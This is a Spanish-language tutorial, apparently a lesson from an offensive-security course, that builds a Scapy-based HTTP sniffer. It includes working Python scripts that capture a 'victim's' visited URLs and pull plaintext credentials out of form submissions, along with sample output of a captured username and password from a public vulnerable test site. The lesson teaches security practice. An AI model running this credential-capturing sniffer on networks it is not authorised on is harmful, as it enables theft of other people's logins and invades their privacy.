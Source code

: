 
----
- TAG: #Creación #Sniffer #HTTP #Scapy 
----
En esta clase, desarrollaremos un rastreador de consultas HTTP (HTTP Sniffer) enfocado en técnicas ofensivas. El HTTP Sniffer es una herramienta crucial para interceptar y analizar el tráfico HTTP en una red, lo que permite revelar información crítica como cabeceras HTTP, URLs solicitadas, y posiblemente datos de formularios y cookies. Estos datos son esenciales para comprender la comunicación entre clientes y servidores web, y pueden ser explotados para varios tipos de ataques, incluyendo la inyección de código, el secuestro de sesiones y la recopilación de información sensible.

A lo largo de la clase, te enseñaremos cómo capturar de manera efectiva este tipo de tráfico utilizando Scapy, y cómo analizarlo para identificar puntos débiles y oportunidades de ataque en una red. Esta habilidad es invaluable para cualquier estrategia ofensiva en ciberseguridad, proporcionándote un entendimiento profundo de cómo fluye la información en la web y cómo puede ser manipulada para fines de ataque.

---

### Sniffing de Tráfico HTTP con Scapy

En la clase anterior, creamos un script llamado `dns_sniffer.py` que nos permitía capturar y visualizar los nombres de dominio DNS. Para llevarlo un paso más allá y obtener información más detallada, ahora vamos a construir un sniffer que capture tráfico **HTTP**. Aunque la mayoría de las comunicaciones web actuales utilizan HTTPS, los dominios DNS se envían en texto claro, por lo que podemos interceptar las solicitudes DNS para ver qué dominios visita el usuario.

En esta práctica, interceptaremos tráfico HTTP y extraeremos credenciales que se envíen por formularios no cifrados. Utilizaremos la página vulnerable `http://testphp.vulnweb.com/login.php` para realizar la práctica.

### Script 1: `http_sniffer.py`

Este script captura las solicitudes HTTP que ocurren en una interfaz de red específica. Utilizamos **Scapy**, una poderosa biblioteca de Python para manipulación y captura de paquetes, y la capa de HTTP proporcionada por Scapy.

#### Código del Script:

```python
#!/usr/bin/python3

import scapy.all as scapy
from scapy.layers import http

# Función que procesa los paquetes capturados
def process_packet(packet):
    # Verifica si el paquete tiene una capa HTTPRequest
    if packet.haslayer(http.HTTPRequest):
        # Muestra el paquete completo
        print(packet.show())

# Función que realiza el sniffing de la interfaz especificada
def sniff(interface):
    # Llama a scapy.sniff para capturar los paquetes en la interfaz
    scapy.sniff(iface=interface, prn=process_packet, store=0)

# Función principal del script
def main():
    # Inicia el sniffing en la interfaz eth0
    sniff("eth0")

if __name__ == '__main__':
    main()
```

#### Explicación:

1. **Importación de Módulos**: Se importan las funciones de Scapy necesarias para el sniffing y para manejar las capas HTTP.
   
2. **Función `process_packet`**: Cada paquete capturado es procesado por esta función. Si el paquete tiene una capa `HTTPRequest`, significa que es una solicitud HTTP. La función imprime el contenido del paquete usando `packet.show()`, lo cual muestra información detallada del paquete.

3. **Función `sniff`**: Se utiliza `scapy.sniff` para capturar los paquetes de la interfaz especificada. El argumento `prn=process_packet` indica que cada paquete capturado será procesado por la función `process_packet`.

4. **Función `main`**: Simplemente llama a la función `sniff` con la interfaz de red `eth0`, que suele ser la interfaz de una red Ethernet.

---

### Mejorando el Sniffer para Capturar Credenciales

En este paso, vamos a mejorar el script para filtrar los paquetes HTTP y detectar posibles credenciales enviadas en formularios web, como nombres de usuario y contraseñas. Usaremos palabras clave comunes como "login", "user", "pass", y "mail" para buscar datos sensibles.

#### Código Mejorado del Script:

```python
#!/usr/bin/python3

import scapy.all as scapy
from scapy.layers import http
from termcolor import colored
import signal 
import sys

# Manejo de señales para salir limpiamente con Ctrl + C
def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)  # Captura de Ctrl+C

# Función para procesar cada paquete capturado
def process_packet(packet):
    
    # Lista de palabras clave comunes para credenciales
    cred_keywords = ["login", "user", "pass", "mail"]
    
    # Si el paquete es una solicitud HTTP
    if packet.haslayer(http.HTTPRequest):
        
        # Reconstruir la URL visitada
        url = "http://" + packet[http.HTTPRequest].Host.decode() + packet[http.HTTPRequest].Path.decode()
        print(colored(f"[+] URL visitada por la víctima: {url}", 'blue'))
        
        # Si el paquete tiene datos en la capa Raw (datos en texto plano)
        if packet.haslayer(scapy.Raw):
            try:
                # Decodifica la carga útil del paquete
                response = packet[scapy.Raw].load.decode()
                
                # Busca palabras clave en la carga útil
                for keyword in cred_keywords:
                    if keyword in response:
                        print(colored(f"\n[+] Posibles credenciales: {response}\n", 'green'))
                        break

            except:
                pass

# Función que realiza el sniffing en la interfaz especificada
def sniff(interface):
    scapy.sniff(iface=interface, prn=process_packet, store=0)

# Función principal que inicia el sniffing
def main():
    sniff("eth0")

if __name__ == '__main__':
    main()
```

#### Explicación:

1. **Manejo de señales (`def_handler`)**: Hemos agregado un manejador de señales para que el script salga de manera limpia cuando el usuario presione `Ctrl + C`. Esto mejora la experiencia de usuario al detener el script sin errores.

2. **Lista de palabras clave**: Se define una lista de palabras clave (`cred_keywords`) que usualmente aparecen en los formularios web donde se solicitan credenciales, como "login", "user", "pass", y "mail".

3. **Recolección de URLs**: Si el paquete capturado es una solicitud HTTP (`HTTPRequest`), el script construye la URL completa que la víctima está visitando usando el `Host` y `Path`.

4. **Filtrando datos sensibles**: Si el paquete contiene una capa `Raw` (que es donde se almacenan los datos de los formularios), se intenta decodificar su contenido. Si se encuentra una palabra clave en la carga útil, el script imprime el contenido como posibles credenciales.

5. **Salida con colores**: Utilizamos la librería `termcolor` para agregar colores a los mensajes. Esto ayuda a resaltar información importante, como las URLs visitadas y las posibles credenciales capturadas.

---

### Ejecución del Script

Cuando ejecutas este script y pruebas enviando un nombre de usuario y una contraseña en la página de prueba (`http://testphp.vulnweb.com/login.php`), el script debería capturar y mostrar algo similar a:

```bash
[+] URL visitada por la víctima: http://testphp.vulnweb.com/login.php

[+] Posibles credenciales: uname=prueba&pass=prueba
```

Este sniffer es muy útil para prácticas de seguridad en entornos controlados, donde puedes inspeccionar el tráfico y ver cómo los datos viajan en texto claro en las solicitudes HTTP.

---

### Próximos Pasos

En la próxima clase, vamos a profundizar en cómo descifrar tráfico HTTPS y qué técnicas se pueden usar para interceptar y manipular ese tipo de tráfico de manera segura en un entorno de prueba.

